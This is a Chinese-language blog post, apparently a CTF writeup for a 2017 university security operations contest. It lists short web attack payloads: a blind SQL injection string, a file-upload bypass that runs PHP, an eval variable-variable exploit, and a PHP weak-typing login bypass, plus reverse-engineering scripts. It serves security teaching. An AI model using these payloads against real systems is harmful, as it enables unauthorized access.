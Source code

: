 ```yaml
---
layout: post
title: "2017安全运维挑战赛writeup"
date: 2017-11-13
description: "2017高校网络信息安全管理运维挑战赛writeup"
tag: writeup
---
```

跟着朋友打了一下2017的高校运维赛，虽然比赛过程中存在这一些不可描述的东西（比如逃课比赛被老师抓到...等等），总之感谢队友没把我抛弃掉。
比赛末尾主办方让写wp了，写的不是很细，就放到博客上充当一篇博文吧QAQ

### Web
#### Login
用万能密码登录发现姿势错误，然后开始尝试sql盲注
```
Payload：uname=1'^(ord(left(pwd,1))>101)^'0&pwd=1
```
总共30位<br>
可以写脚本也可以试试手注，注到手抽筋<br>
```
fsaoaigafsdfsdubbwouibiaewrawe
```
最后flag
![](/images/2017-11-13/1.png)
```
EIS{SQLI_INJECTIion_blind}
```

#### PHP是最好的语言
[参考链接](http://www.jianshu.com/p/179fa39909f4)<br>
.bak下载源码<br>
![](/images/2017-11-13/2.png)
对着他的payload稍微改了一下
```
EIS{php_th3_b45t_l4ngu4g3}
```

#### 文件上传
![](/images/2017-11-13/3.png)
```
Payload：ext=php&content[]=<?ph&content[]=p%00phpinfo();
```
![](/images/2017-11-13/4.png)
```
EIS{6yp455_with_4rr4y}
```

#### 随机数
![](/images/2017-11-13/5.png)
试了下爆破，神奇的可行，然后就出来了<br>
![](/images/2017-11-13/6.png)
```
EIS{brute_forc3_th3_r4nd0m_s33d}
```

#### PHP代码审计
```
<?php   
error_reporting(0); 
include "flag1.php"; 
highlight_file(__file__); 
if(isset($_GET['args'])){ 
    $args = $_GET['args']; 
    if(!preg_match("/^\w+$/",$args)){ 
        die("args error!"); 
    } 
    eval("var_dump($$args);"); 
}
```
```
Payload：args=GLOBALS
```
![](/images/2017-11-13/7.png)

#### 快速计算
写了个爬虫
有点瑕疵 第二个数如果是三位数的话就会报错

![](/images/2017-11-13/8.png)

#### PHP trick
```
Payload：?gift=&flag=lag=
```
![](/images/2017-11-13/9.png)
RVF{woshiflag}
凯撒解密一下

#### 不是管理员也能login
主要考查php弱类型
查看说明页面拿到源码，貌似之前也再哪里遇到过
用户名的md5前两位是0e，密码的话是反序列化
md5('s155964671a')=0e342768416822451524974117254469
帐号就是 s155964671a了，密码a:2:{s:3:"pwd";b:1;s:4:"name";b:1;}
![](/images/2017-11-13/10.png)
```
EIS{Smi1E_on_YouR_face_And_in_y0ur_heart}
```

### RE
#### IginteMe
![](/images/2017-11-13/11.png)
分析第一步，发现是C++写的
是时候掏出我的IDA了
![](/images/2017-11-13/12.png)
查看源码
![](/images/2017-11-13/13.png)
然后就是上脚本了
```
list1 = [0x0D, 0x13, 0x17, 0x11, 0x02, 0x01, 0x20, 0x1D, 0x0C, 0x02, 0x19, 0x2F, 0x17, 0x2B, 0x24, 0x1F, 0x1E, 0x16, 0x09, 0x0F, 0x15, 0x27, 0x13, 0x26, 0x0A, 0x2F, 0x1E, 0x1A, 0x2D, 0x0C, 0x22, 0x04,]
a = b'GONDPHyGjPEKruv{{pj]X@rF'
flag = []
for x, y in zip(list1, a):
    flag.append(((x^y) - 72) ^ 0x55)
print (bytes(flag))
```

#### ReverseMe
这个给的程序无法打开真有点伤，不过不影响做题
![](/images/2017-11-13/14.png)
双击定位到了这里
![](/images/2017-11-13/15.png)
寻找交叉引用拿到源码
![](/images/2017-11-13/16.png)
剩下的就是脚本问题了
![](/images/2017-11-13/17.png)

### crypto
#### easy crypto
![](/images/2017-11-13/18.png)
一个对称加密对着给出的文件逆写python脚本：
![](/images/2017-11-13/19.png)

### Misc
#### 隐藏在黑夜里的秘密
看到有密码而且没发现提示，在想会不会是伪加密
![](/images/2017-11-13/20.png)
查看图片发现惊喜
![](/images/2017-11-13/21.png)

#### 签到题
扫描得flag


可能写的不是很详细，具体大佬们可以联系我